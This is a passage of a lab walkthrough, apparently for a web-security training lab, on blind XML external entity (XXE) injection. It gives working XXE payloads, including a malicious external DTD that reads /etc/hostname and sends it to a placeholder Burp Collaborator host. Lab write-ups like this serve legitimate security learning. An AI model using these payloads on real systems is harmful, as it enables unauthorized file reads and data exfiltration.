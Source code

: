 Updated the intercepted request updating the body with the below payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.165:9090/"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

In the Burp Collaborator client window click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Exploiting blind XXE to exfiltrate data using a malicious external DTD

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, exfiltrate the contents of the /etc/hostname file

Created a malicious payload into a DTD file

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Host the file using a webserver or Burp Collaborator

Intercepted the Check stock request and modified it to refer to the malicious DTD

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

You can poll the Burp Collaborator or view the web server instance for interactions.

You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.
